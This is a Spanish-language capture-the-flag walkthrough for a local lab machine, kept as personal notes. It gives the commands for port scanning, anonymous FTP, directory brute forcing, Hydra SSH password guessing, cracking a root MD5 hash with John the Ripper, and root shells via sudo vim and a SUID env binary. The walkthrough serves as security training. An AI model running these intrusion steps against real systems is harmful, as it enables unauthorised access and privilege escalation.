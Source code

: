1. Realizamos un [[00. Apuntes/01. Herramientas/NMAP|NMAP]] hacia la IP objetivo:
`nmap -p- -sS -sCV --min-rate 5000 -n -vvv -Pn <IP> -oN <NombreFichero>
![[Pasted image 20241117192910.png]]

2.  Vemos en el scaneo que esta permitida la entrada de FTP anonymous:
`ftp ftp@IP`
![[Pasted image 20241117193148.png]]

3. Nos descargamos todos los ficheros dentro de FTP:
`mget *`

- Leemos el archivo `chat-gonza.txt`
![[Pasted image 20241117193504.png]]

4.  Hace mención a una URL vamos a hacer una búsqueda de directorios y ficheros con [[00. Apuntes/01. Herramientas/GOBUSTER|GOBUSTER]]:
`gobuster dir -u <URL> -w <wordlist> -x <extensiones> -r`
- Encontramos los siguientes ficheros
![[Pasted image 20241117194514.png]]

5. Vamos a profundizar en `backup`
- Desde la web vemos que hay dentro un fichero llamdo `backup.txt`
- Leemos el contenido con curl
`curl http://172.17.0.2/backup/backup.txt`
![[Pasted image 20241117194908.png]]
- Ya hemos obtenido el usuario del sistema

6. Intrusión a la maquina [[HYDRA]]:
`hydra -l russoski -P <wordlist> ssh://IP`
![[Pasted image 20241117195235.png]]

7. Accedemos vía SSH:
`ssh russoski@IP`
![[Pasted image 20241117195435.png]]

8. Listamos el home del usuario
`ls -la`

- El fichero `.bash_history` no esta vacío así que lo leemos
- Viendo el fichero observamos que hay tres posibles formas de escalar privilegios

9.  Escalada de privilegios 1

- Nos movemos a `/var/www/html/important`

- Leemos el fichero `.root-passwd.txt`
![[Pasted image 20241117200133.png]]
- Copiamos el hash y creamos un fichero llamado hash

`echo aac0a9daa4185875786c9ed154f0dece > hash`

- Utilizamos la herramienta [[00. Apuntes/01. Herramientas/JOHN THE RIPPER|JOHN THE RIPPER]] para desencriptar el hash
`john --format=Raw-MD5  --wordlist=/usr/share/wordlists/rockyou.txt hash`
![[Pasted image 20241117200552.png]]

- Al obtener la clave la probamos con el usuario root y obtenemos el acceso

10. Escalada de privilegios 2
-  Usamos `sudo -l` para ver los comandos que podemos ejecutar como root
![[Pasted image 20241117200925.png]]

- Usamos `sudo vim -c ':!/bin/sh'` para obtener una `sh` como root
	- (Hemos buscado en [[GTFOBINS]] formas de escalar privilegios con vim)

11. Escalada privilegios 3
-  Buscaremos los binarios que tengan el permiso SUID activo
	- `find / -type f -perm -4000 2>/dev/null`
- Encontramos un binario llamado `env`
	- Buscando en [[GTFOBINS]] formas de escalar privilegios con `env` encontramos:
		- `/usr/bin/env /bin/sh -p` que nos permitirá una `sh` como root
